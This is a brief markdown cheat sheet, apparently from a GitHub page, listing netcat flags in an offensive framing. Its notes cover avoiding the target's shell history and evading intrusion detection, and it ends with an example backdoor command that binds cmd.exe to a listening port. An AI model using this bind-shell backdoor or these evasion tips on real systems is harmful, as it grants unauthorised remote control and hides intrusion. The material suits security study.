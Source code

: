 # NETCAT 

### Commands:

#### -c, --sh-exec COMMAND = Executes the given command via /bin/sh (Doesn't write to bash history file of target)

#### -l = Listening mode

#### -p NUMBER = Port number to listen

#### -4, -6 = IPv4/IPv6 only (IDPS Evasion)

#### -m,max-conns NUMBER = Maximum NUMBER simultaneous connections (Tag to 1 to connect only you!)

#### -o --output = Dump session data to a file

#### -u = Uses UDP

#### -v = Verbosity level (Up to 3 times -vvv)

#### -n = No dns

#### -t = Telnet answer

#### -s = Source address to use

#### -k = Accept multiple connections in listen mode 

#### -e COMMAND = Execute the given command

### Example backdoor command:

    nc -lkp PORT -e "cmd.exe"
